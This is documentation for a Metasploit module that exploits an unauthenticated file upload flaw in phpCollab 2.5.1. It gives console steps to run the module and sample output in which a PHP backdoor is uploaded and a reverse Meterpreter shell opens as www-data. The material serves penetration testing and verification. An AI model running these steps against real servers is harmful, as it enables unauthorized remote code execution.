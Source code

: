 ## Vulnerable Application

This module exploits a file upload vulnerability in phpCollab 2.5.1
which could be abused to allow unauthenticated users to execute arbitrary code
under the context of the web server user.

The exploit has been tested on Ubuntu 16.04.3 64-bit

### Vulnerable Application Installation

You can download the vulnerable application from the exploit-db page [https://www.exploit-db.com/apps/dda41c5b541d7adc0b50b1fcf3bf7519-phpCollab-v2.5.1.zip]. Follow the install instructions from the phpCollab website [http://phpcollab.com/documentation/install.htm]. The phpCollab application is only compatible with php5.

## Verification steps

```
msf > use exploit/unix/webapp/phpcollab_upload_exec
msf exploit(phpcollab_upload_exec) > set RHOST [IP Address] 
msf exploit(phpcollab_upload_exec) > set TARGETURI [Installation Directory] 
msf exploit(phpcollab_upload_exec) > exploit 

## Sample Output

[*] Started reverse TCP handler on 192.168.246.129:4444 
[*] Uploading backdoor file: 1.mEgUkeNnxP.php
[+] Backdoor successfully created.
[*] Triggering the exploit...
[*] Sending stage (37543 bytes) to 192.168.246.144
[*] Meterpreter session 1 opened (192.168.246.129:4444 -> 192.168.246.144:49264) at 2017-12-20 15:44:36 -0500
[+] Deleted 1.mEgUkeNnxP.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > pwd
/var/www/html/phpcollab/logos_clients
meterpreter >

```


